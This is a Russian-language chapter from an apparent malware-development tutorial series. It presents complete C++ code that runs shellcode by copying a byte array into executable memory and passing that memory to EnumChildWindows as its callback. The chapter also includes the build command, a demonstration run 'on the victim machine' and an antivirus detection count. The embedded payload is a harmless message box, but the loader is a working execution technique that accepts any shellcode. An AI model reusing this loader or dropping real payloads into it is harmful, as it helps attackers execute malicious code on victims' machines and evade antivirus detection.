





\newpage
\subsection{34. Трюки разработки вредоносного ПО. Запуск шелл-кода через EnumChildWindows. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот раздел является результатом самостоятельного изучения интересного приёма: запуск шелл-кода через перечисление дочерних окон.    

### EnumChildWindows

Перечисляет дочерние окна указанного родительского окна, передавая их дескрипторы в функцию обратного вызова, созданную приложением. `EnumChildWindows` продолжает выполнение до тех пор, пока не будут перечислены все дочерние окна или пока функция обратного вызова не вернёт `FALSE`:

```cpp
BOOL EnumChildWindows(
  HWND        hWndParent,
  WNDENUMPROC lpEnumFunc,
  LPARAM      lParam
);
```

### практический пример

Рассмотрим практический пример. Этот трюк довольно прост и схож с [предыдущим](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html):

```cpp
/*
 * hack.cpp - run shellcode via EnumChildWindows. 
 C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/
 2022/07/13/malware-injection-21.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload),
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  return 0;
}
```

Сначала мы выделяем буфер памяти в текущем процессе с помощью `VirtualAlloc`:    

```cpp
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), 
MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Затем "копируем" наш полезный код в этот участок памяти:    

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

И далее, в качестве указателя на функцию обратного вызова в `EnumChildWindows`, мы указываем этот участок памяти:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

Как обычно, для простоты я использовал полезную нагрузку с выводом сообщения "meow-meow":

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### Демо

Давайте посмотрим, как всё работает на практике. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Запускаем на машине жертвы:    

```powershell
.\hack.exe
```

{width="80%"}    

{width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем `hack.exe` на VirusTotal:    

{width="80%"}    

**Итак, 20 из 69 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/71c4294f90d6d6c3686601b519c2401a58bb1fb03ab9ca3975eca7231af77853/detection](https://www.virustotal.com/gui/file/71c4294f90d6d6c3686601b519c2401a58bb1fb03ab9ca3975eca7231af77853/detection)    

Я надеюсь, что этот раздел повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.      

[EnumChildWindows](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumchildwindows)    
[исходный код на github](https://github.com/cocomelonc/2022-07-13-malware-injection-21)
